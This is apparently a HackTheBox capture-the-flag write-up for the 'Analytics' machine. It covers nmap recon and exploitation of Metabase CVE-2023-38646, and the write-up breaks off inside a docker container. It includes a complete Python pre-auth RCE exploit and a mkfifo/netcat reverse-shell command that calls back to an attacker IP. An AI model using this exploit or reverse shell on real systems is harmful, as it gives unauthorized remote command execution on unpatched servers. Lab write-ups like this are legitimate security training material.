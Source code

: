 # Box: Analytics
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.72.97 -v -p- -T4```

```
Nmap scan report for 10.129.72.97
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/20%OT=22%CT=1%CU=30989%PV=Y%DS=2%DC=T%G=Y%TM=653231
OS:FD%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 5.516 days (since Sat Oct 14 20:29:52 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   258.16 ms 10.10.14.1
2   258.16 ms 10.129.72.97

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 08:53:33 2023 -- 1 IP address (1 host up) scanned in 1121.13 seconds
```
From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d3d74bd8-0a57-4128-9e59-86306d4f83cb)

Lets add that to our ```/etc/hosts``` file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ sudo nano /etc/hosts      
[sudo] password for bl4ck4non: 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/analytics]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       bl4ck4non-sec

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.129.72.96 analytical.htb
```
Going back to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/69270f11-6834-464a-9a71-14cbcab1f1a9)

Trying to login, I saw this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99a466c8-7913-442b-ac12-d4f133ef79e6)

Add the subdomain to the ```/etc/hosts``` file.

Now, lets navigate back to that subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a94b256f-1ab5-4ef2-b0cb-56b8ad6862f2)

Doing my research I saw that there's a recent exploit for ```metabase```. Lets exploit hehe


# Exploitation

You can check out this [blog](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396), if you need an in-depth knowledge.]

First thing to do is grab our set-up token from the api endpoint ```/api/session/properties```.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35f17142-a140-42f4-8ac7-69d024618bd1)

Lets capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/934c1a33-24b2-4ff3-b982-690b8b7498aa)

cool, we got the token. 

We'll be using this python script to get RCE

```python
from argparse import ArgumentParser
from string import ascii_uppercase

import base64
import random
import requests


def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')

    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()

    return encoded_payload


parser = ArgumentParser('Metabase Pre-Auth RCE Reverse Shell', 'This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646')

parser.add_argument('-u', '--url', type=str, required=True, help='Target URL')
parser.add_argument('-t', '--token', type=str, required=True, help='Setup Token from /api/session/properties')
parser.add_argument('-c', '--command', type=str, required=True, help='Command to be execute in the target host')

args = parser.parse_args()

print('[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]\n')

print('[+] Initialized script')

print('[+] Encoding command')

command = encode_command_to_b64(args.command)

url = f'{args.url}/api/setup/validate'

headers = {
    "Content-Type": "application/json",
    "Connection": "close"
}

payload = {
    "token": args.token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command),
            "advanced-options": False,
            "ssl": True
        },
        "name": "x",
        "engine": "h2"
    }
}

print('[+] Making request')

request = requests.post(url, json=payload, headers=headers)

print('[+] Payload sent')`
```
Save this in a file, say "exploit.py".

To run the script, we just need the target url and the setup token. We'll also include our payload we want to execute. I'll be susing this payload ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc LHOST LPORT >/tmp/f```, ensure you set your ```LHOST``` and ```LPORT```. Also, set up your netcat listener

Now, lets run the script

command:```python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.61 1234 >/tmp/f"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/23bd10bd-393f-4583-bd90-d1868637580c)

nice nice, we spawned a shell as user ```metabase```.

You can use the below commands to stabilize the shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```
Well, this ain't working😂. Just realized now that we are in a docker container























